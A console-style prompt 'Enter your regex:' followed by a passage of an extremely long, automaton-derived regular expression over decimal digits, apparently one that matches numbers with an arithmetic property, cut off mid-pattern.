Enter your regex: (((((((6|70*1)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|5|70*(2|9))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|40*(3|8)|7)|(6|70*1)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|4|70*(3|8))(((60*1|7)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|4|60*(2|9))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|40*(3|8)|7)|(60*1|7)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|5|60*(3|8))*(((60*1|7)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|4|60*(2|9))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(6|(2|9)0*4)|0|40*4)|(60*1|7)((2|9)0*1|(3|8))*(6|(2|9)0*4)|60*4|(2|9))|((6|70*1)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|5|70*(2|9))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(6|(2|9)0*4)|0|40*4)|(6|70*1)((2|9)0*1|(3|8))*(6|(2|9)0*4)|70*4|(3|8))(((((2|9)|(3|8)0*1)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|1|(3|8)0*(2|9))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|40*(3|8)|7)|((2|9)|(3|8)0*1)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|0|(3|8)0*(3|8))(((60*1|7)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|4|60*(2|9))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|40*(3|8)|7)|(60*1|7)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|5|60*(3|8))*(((60*1|7)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|4|60*(2|9))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(6|(2|9)0*4)|0|40*4)|(60*1|7)((2|9)0*1|(3|8))*(6|(2|9)0*4)|60*4|(2|9))|(((2|9)|(3|8)0*1)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|1|(3|8)0*(2|9))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(6|(2|9)0*4)|0|40*4)|((2|9)|(3|8)0*1)((2|9)0*1|(3|8))*(6|(2|9)0*4)|7|(3|8)0*4)*(((((2|9)|(3|8)0*1)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|1|(3|8)0*(2|9))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|40*(3|8)|7)|((2|9)|(3|8)0*1)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|0|(3|8)0*(3|8))(((60*1|7)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|4|60*(2|9))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|40*(3|8)|7)|(60*1|7)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|5|60*(3|8))*(((60*1|7)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|4|60*(2|9))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(7|(2|9)0*5)|1|40*5)|(60*1|7)((2|9)0*1|(3|8))*(7|(2|9)0*5)|60*5|(3|8))|(((2|9)|(3|8)0*1)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|1|(3|8)0*(2|9))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(7|(2|9)0*5)|1|40*5)|((2|9)|(3|8)0*1)((2|9)0*1|(3|8))*(7|(2|9)0*5)|6|(3|8)0*5)|(((6|70*1)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|5|70*(2|9))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|40*(3|8)|7)|(6|70*1)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|4|70*(3|8))(((60*1|7)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|4|60*(2|9))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|40*(3|8)|7)|(60*1|7)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|5|60*(3|8))*(((60*1|7)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|4|60*(2|9))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(7|(2|9)0*5)|1|40*5)|(60*1|7)((2|9)0*1|(3|8))*(7|(2|9)0*5)|60*5|(3|8))|((6|70*1)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|5|70*(2|9))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(7|(2|9)0*5)|1|40*5)|(6|70*1)((2|9)0*1|(3|8))*(7|(2|9)0*5)|70*5|(2|9))(((((0|10*1)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|10*(2|9)|(3|8))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|40*(3|8)|7)|(0|10*1)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|10*(3|8)|(2|9))(((60*1|7)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|4|60*(2|9))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|40*(3|8)|7)|(60*1|7)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|5|60*(3|8))*(((60*1|7)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|4|60*(2|9))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(6|(2|9)0*4)|0|40*4)|(60*1|7)((2|9)0*1|(3|8))*(6|(2|9)0*4)|60*4|(2|9))|((0|10*1)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|10*(2|9)|(3|8))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(6|(2|9)0*4)|0|40*4)|(0|10*1)((2|9)0*1|(3|8))*(6|(2|9)0*4)|10*4|5)(((((2|9)|(3|8)0*1)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|1|(3|8)0*(2|9))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|40*(3|8)|7)|((2|9)|(3|8)0*1)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|0|(3|8)0*(3|8))(((60*1|7)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|4|60*(2|9))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|40*(3|8)|7)|(60*1|7)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|5|60*(3|8))*(((60*1|7)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|4|60*(2|9))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(6|(2|9)0*4)|0|40*4)|(60*1|7)((2|9)0*1|(3|8))*(6|(2|9)0*4)|60*4|(2|9))|(((2|9)|(3|8)0*1)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|1|(3|8)0*(2|9))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(6|(2|9)0*4)|0|40*4)|((2|9)|(3|8)0*1)((2|9)0*1|(3|8))*(6|(2|9)0*4)|7|(3|8)0*4)*(((((2|9)|(3|8)0*1)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|1|(3|8)0*(2|9))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|40*(3|8)|7)|((2|9)|(3|8)0*1)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|0|(3|8)0*(3|8))(((60*1|7)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|4|60*(2|9))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|40*(3|8)|7)|(60*1|7)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|5|60*(3|8))*(((60*1|7)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|4|60*(2|9))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(7|(2|9)0*5)|1|40*5)|(60*1|7)((2|9)0*1|(3|8))*(7|(2|9)0*5)|60*5|(3|8))|(((2|9)|(3|8)0*1)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|1|(3|8)0*(2|9))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(7|(2|9)0*5)|1|40*5)|((2|9)|(3|8)0*1)((2|9)0*1|(3|8))*(7|(2|9)0*5)|6|(3|8)0*5)|(((0|10*1)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|10*(2|9)|(3|8))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|40*(3|8)|7)|(0|10*1)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|10*(3|8)|(2|9))(((60*1|7)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|4|60*(2|9))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|40*(3|8)|7)|(60*1|7)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|5|60*(3|8))*(((60*1|7)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|4|60*(2|9))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(7|(2|9)0*5)|1|40*5)|(60*1|7)((2|9)0*1|(3|8))*(7|(2|9)0*5)|60*5|(3|8))|((0|10*1)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|10*(2|9)|(3|8))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(7|(2|9)0*5)|1|40*5)|(0|10*1)((2|9)0*1|(3|8))*(7|(2|9)0*5)|10*5|4)*(((((0|10*1)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|10*(2|9)|(3|8))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|40*(3|8)|7)|(0|10*1)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|10*(3|8)|(2|9))(((60*1|7)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|4|60*(2|9))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|40*(3|8)|7)|(60*1|7)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|5|60*(3|8))*(((60*1|7)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|4|60*(2|9))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(6|(2|9)0*4)|0|40*4)|(60*1|7)((2|9)0*1|(3|8))*(6|(2|9)0*4)|60*4|(2|9))|((0|10*1)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|10*(2|9)|(3|8))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(6|(2|9)0*4)|0|40*4)|(0|10*1)((2|9)0*1|(3|8))*(6|(2|9)0*4)|10*4|5)(((((2|9)|(3|8)0*1)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|1|(3|8)0*(2|9))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|40*(3|8)|7)|((2|9)|(3|8)0*1)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|0|(3|8)0*(3|8))(((60*1|7)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|4|60*(2|9))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|40*(3|8)|7)|(60*1|7)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|5|60*(3|8))*(((60*1|7)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|4|60*(2|9))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(6|(2|9)0*4)|0|40*4)|(60*1|7)((2|9)0*1|(3|8))*(6|(2|9)0*4)|60*4|(2|9))|(((2|9)|(3|8)0*1)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|1|(3|8)0*(2|9))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(6|(2|9)0*4)|0|40*4)|((2|9)|(3|8)0*1)((2|9)0*1|(3|8))*(6|(2|9)0*4)|7|(3|8)0*4)*(((((2|9)|(3|8)0*1)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|1|(3|8)0*(2|9))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|40*(3|8)|7)|((2|9)|(3|8)0*1)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|0|(3|8)0*(3|8))(((60*1|7)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|4|60*(2|9))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|40*(3|8)|7)|(60*1|7)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|5|60*(3|8))*(((60*1|7)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|4|60*(2|9))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(5|(2|9)0*7)|40*7|(3|8))|(60*1|7)((2|9)0*1|(3|8))*(5|(2|9)0*7)|1|60*7)|(((2|9)|(3|8)0*1)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|1|(3|8)0*(2|9))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(5|(2|9)0*7)|40*7|(3|8))|((2|9)|(3|8)0*1)((2|9)0*1|(3|8))*(5|(2|9)0*7)|4|(3|8)0*7)|(((0|10*1)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|10*(2|9)|(3|8))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|40*(3|8)|7)|(0|10*1)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|10*(3|8)|(2|9))(((60*1|7)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|4|60*(2|9))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|40*(3|8)|7)|(60*1|7)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|5|60*(3|8))*(((60*1|7)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|4|60*(2|9))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(5|(2|9)0*7)|40*7|(3|8))|(60*1|7)((2|9)0*1|(3|8))*(5|(2|9)0*7)|1|60*7)|((0|10*1)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|10*(2|9)|(3|8))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(5|(2|9)0*7)|40*7|(3|8))|(0|10*1)((2|9)0*1|(3|8))*(5|(2|9)0*7)|10*7|6)|((((6|70*1)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|5|70*(2|9))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|40*(3|8)|7)|(6|70*1)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|4|70*(3|8))(((60*1|7)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|4|60*(2|9))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|40*(3|8)|7)|(60*1|7)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|5|60*(3|8))*(((60*1|7)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|4|60*(2|9))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(6|(2|9)0*4)|0|40*4)|(60*1|7)((2|9)0*1|(3|8))*(6|(2|9)0*4)|60*4|(2|9))|((6|70*1)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|5|70*(2|9))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(6|(2|9)0*4)|0|40*4)|(6|70*1)((2|9)0*1|(3|8))*(6|(2|9)0*4)|70*4|(3|8))(((((2|9)|(3|8)0*1)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|1|(3|8)0*(2|9))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|40*(3|8)|7)|((2|9)|(3|8)0*1)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|0|(3|8)0*(3|8))(((60*1|7)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|4|60*(2|9))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|40*(3|8)|7)|(60*1|7)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|5|60*(3|8))*(((60*1|7)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|4|60*(2|9))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(6|(2|9)0*4)|0|40*4)|(60*1|7)((2|9)0*1|(3|8))*(6|(2|9)0*4)|60*4|(2|9))|(((2|9)|(3|8)0*1)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|1|(3|8)0*(2|9))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(6|(2|9)0*4)|0|40*4)|((2|9)|(3|8)0*1)((2|9)0*1|(3|8))*(6|(2|9)0*4)|7|(3|8)0*4)*(((((2|9)|(3|8)0*1)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|1|(3|8)0*(2|9))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|40*(3|8)|7)|((2|9)|(3|8)0*1)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|0|(3|8)0*(3|8))(((60*1|7)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|4|60*(2|9))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|40*(3|8)|7)|(60*1|7)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|5|60*(3|8))*(((60*1|7)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|4|60*(2|9))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(5|(2|9)0*7)|40*7|(3|8))|(60*1|7)((2|9)0*1|(3|8))*(5|(2|9)0*7)|1|60*7)|(((2|9)|(3|8)0*1)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|1|(3|8)0*(2|9))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(5|(2|9)0*7)|40*7|(3|8))|((2|9)|(3|8)0*1)((2|9)0*1|(3|8))*(5|(2|9)0*7)|4|(3|8)0*7)|(((6|70*1)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|5|70*(2|9))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|40*(3|8)|7)|(6|70*1)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|4|70*(3|8))(((60*1|7)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|4|60*(2|9))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|40*(3|8)|7)|(60*1|7)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|5|60*(3|8))*(((60*1|7)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|4|60*(2|9))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(5|(2|9)0*7)|40*7|(3|8))|(60*1|7)((2|9)0*1|(3|8))*(5|(2|9)0*7)|1|60*7)|((6|70*1)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|5|70*(2|9))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(5|(2|9)0*7)|40*7|(3|8))|(6|70*1)((2|9)0*1|(3|8))*(5|(2|9)0*7)|0|70*7)((((((4|50*1)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|50*(2|9)|7)((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|40*(3|8)|7)|(4|50*1)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|50*(3|8)|6)(((60*1|7)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|4|60*(2|9))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|40*(3|8)|7)|(60*1|7)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|5|60*(3|8))*(((60*1|7)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|4|60*(2|9))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(6|(2|9)0*4)|0|40*4)|(60*1|7)((2|9)0*1|(3|8))*(6|(2|9)0*4)|60*4|(2|9))|((4|50*1)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|50*(2|9)|7)((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(6|(2|9)0*4)|0|40*4)|(4|50*1)((2|9)0*1|(3|8))*(6|(2|9)0*4)|1|50*4)(((((2|9)|(3|8)0*1)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|1|(3|8)0*(2|9))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|40*(3|8)|7)|((2|9)|(3|8)0*1)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|0|(3|8)0*(3|8))(((60*1|7)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|4|60*(2|9))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|40*(3|8)|7)|(60*1|7)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|5|60*(3|8))*(((60*1|7)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|4|60*(2|9))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(6|(2|9)0*4)|0|40*4)|(60*1|7)((2|9)0*1|(3|8))*(6|(2|9)0*4)|60*4|(2|9))|(((2|9)|(3|8)0*1)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|1|(3|8)0*(2|9))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(6|(2|9)0*4)|0|40*4)|((2|9)|(3|8)0*1)((2|9)0*1|(3|8))*(6|(2|9)0*4)|7|(3|8)0*4)*(((((2|9)|(3|8)0*1)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|1|(3|8)0*(2|9))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|40*(3|8)|7)|((2|9)|(3|8)0*1)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|0|(3|8)0*(3|8))(((60*1|7)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|4|60*(2|9))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|40*(3|8)|7)|(60*1|7)((2|9)0*1|(3|8))*(1|(2|9)0*(3|8))|5|60*(3|8))*(((60*1|7)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|4|60*(2|9))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(7|(2|9)0*5)|1|40*5)|(60*1|7)((2|9)0*1|(3|8))*(7|(2|9)0*5)|60*5|(3|8))|(((2|9)|(3|8)0*1)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|1|(3|8)0*(2|9))((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|(3|8))*(7|(2|9)0*5)|1|40*5)|((2|9)|(3|8)0*1)((2|9)0*1|(3|8))*(7|(2|9)0*5)|6|(3|8)0*5)|(((4|50*1)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|50*(2|9)|7)((40*1|5)((2|9)0*1|(3|8))*(0|(2|9)0*(2|9))|40*(2|9)|6)*((40*1|5)((2|9)0*1|